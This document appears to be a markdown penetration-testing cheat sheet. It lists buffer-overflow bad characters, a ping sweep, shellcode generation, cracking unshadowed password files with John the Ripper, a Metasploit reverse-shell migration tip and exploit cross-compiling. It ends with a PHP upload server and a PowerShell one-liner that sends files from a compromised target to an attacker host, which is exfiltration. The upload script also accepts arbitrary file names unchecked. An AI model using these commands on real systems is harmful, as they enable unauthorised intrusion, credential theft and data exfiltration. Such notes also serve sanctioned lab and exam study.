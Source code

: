 # Bad Characters
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
# Windows Ping Scan One-Liner
```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.11.%i > nul && echo 10.10.11.%i is up.
```

# Generate Shellcode from file
```
xxd -p lib.so | tr -d '\n' > lib.hex
# add '0x' before shellcode
```

# unshadow passwd file
```
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

# Metasploit 
## multi handler
In case you got a Reverse Shell but the session immediately dies, try to migrate to another process with:
```
set AutoRunScript post/windows/manage/migrate
```

# Cross-Compiling Exploit Code
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o exploit.exe # In case of errors try -lws2_32 flag
```

# Run Windows Binary on Linux
```
wine PE.exe
```

# Render webpages from command line
* cutycapt: http://cutycapt.sourceforge.net/

# Create simple Upload Web Server
1. create /var/www/uploads folder and set owner to www-data
2. create /var/www/html/upload.php with following content
```
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $\_FILES['file']['name'];

move_uploaded_file($\_FILES['file']['tmp_name'], $uploadfile)
?>
```
3. Start apache2 server
4. Upload files from target to webserver. Example with powershell
```
powershell -c "iex(new-object system.net.webclient).uploadfile('http://192.168.1.13/upload.php', 'filename')"
```

